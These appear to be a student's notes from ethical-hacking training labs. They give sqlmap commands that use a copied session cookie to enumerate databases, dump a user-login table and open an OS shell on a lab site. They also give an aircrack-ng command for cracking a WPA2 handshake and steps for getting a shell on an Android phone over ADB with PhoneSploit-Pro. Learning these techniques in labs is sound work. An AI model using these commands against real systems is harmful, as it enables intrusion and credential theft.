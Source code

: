 open site http://www.moviescope.com and paste login&pass then go to viewprofile page
Click the  Inspect (Q) then click Console tab, type document.cookie in the lower-left corner of the browser, and press Enter.
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied ] --dbs then yes,yes
In this query, 
-u specifies the target URL (the one you noted down in Step#7), 
--cookie specifies the HTTP cookie header value, 
--dbs enumerates DBMS databases.
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied]" -D moviescope --tables ---> get moviescope database table
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied]" -D moviescope -T User_Login --dump  -----> get all dump users login&password
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step#7]" --os-shell ---> go to os shell folder yes,yes
other SQL injection tools such as Mole (https://sourceforge.net), 
jSQL Injection (https://github.com), 
NoSQLMap (https://github.com), 
Havij (https://github.com),
blind_sql_bitshifting (https://github.com)

2. Detect SQL Injection Vulnerabilities using OWASP ZAP

Zap 2.14.0 ---->  for Windows detect sql injection vulnerabilities
other SQL injection detection tools --->
Damn Small SQLi Scanner (DSSS) (https://github.com), 
Snort (https://snort.org), 
Burp Suite (https://www.portswigger.net), 
HCL AppScan (https://www. hcl-software.com)
											LAB15. Hacking Wireless Networks
											
AirMagnet WiFi Analyzer PRO (https://www.netally.com), 
SteelCentral Packet Analyzer (https://www.riverbed.com), 
Omnipeek Network Protocol Analyzer (https://www.liveaction.com),
CommView for Wi-Fi (https://www.tamos.com) to analyze Wi-Fi traffic.

Crack a WPA2 Network using Aircrack-ng  
aircrack-ng -a2 -b [Target BSSID] -w /home/attacker/Desktop/Wordlist/password.txt '/home/attacker/Desktop/Sample Captures/WPA2crack-01.cap'
-a is the technique used to crack the handshake, 2=WPA technique.
-b refers to bssid; replace with the BSSID of the target router.
-w stands for wordlist; provide the path to a wordlist.

hashcat (https://hashcat.net), 
Portable Penetrator (https://www.secpoint.com), 
WepCrackGui (https://sourceforge.net) to crack WEP/WPA/WPA2 encryption.

												LAB16. Hacking Mobile Platforms
												
1.Exploit the Android Platform through ADB using PhoneSploit-Pro
cd PhoneSploit-Pro
python3 phonesploitpro.py ---->yes
then enter phone ip address
after connect you can choise what you want
select 14 for go shell
adb connect <Target IP:5555>
adb devices
adb shell --->get shell
